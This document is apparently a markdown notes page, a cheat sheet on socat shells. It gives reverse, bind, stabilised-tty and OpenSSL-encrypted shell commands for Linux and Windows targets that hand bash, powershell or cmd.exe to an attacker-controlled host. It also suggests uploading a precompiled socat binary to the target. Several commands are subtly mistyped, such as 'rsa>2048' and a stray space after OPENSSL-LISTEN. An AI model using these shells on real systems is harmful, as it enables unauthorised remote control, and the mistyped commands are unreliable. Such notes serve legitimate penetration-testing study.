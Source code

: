 ### Reverse Shells
Here's the syntax for a basic reverse [[shell]] listener in socat:
`socat TCP-L:<port> -`

This is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows.
On Windows we would use this command to connect back:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.  
This is the equivalent command for a Linux Target:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### Bind Shells
On a Linux target we would use the following command:
`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener:
`socat TCP:<TARGET-IP>:<TARGET-PORT> -

### Fully stable Linux tty reverse shell
`socat TCP-L:<port> FILE:'tty',raw,echo=0`

This is approximately equivalent to using the Ctrl+Z, `stty raw -echo; fg` trick.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- **pty**, allocates a pseudoterminal on the target
- **stderr**, makes sure that any error messages get shown in the shell.
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilizes the terminal, attempting to "normalize" it.
If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

## Encrypted Shells
We can create a encrypted shell with socat -- both bind and reverse.
We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
`openssl req --newkey rsa>2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

We then need to merge the two created files into a single `.pem` file:
`cat shell.key shell.crt > shell.pem`  

Now, when we set up our reverse shell listener, we use:
`socat OPENSSL-LISTEN: <PORT>,cert=shell.pem,verify=0 -`

`verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized authority.
To connect back, we would use:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`  

The same technique would apply for a bind shell:
Target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  

Attacker:  
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`
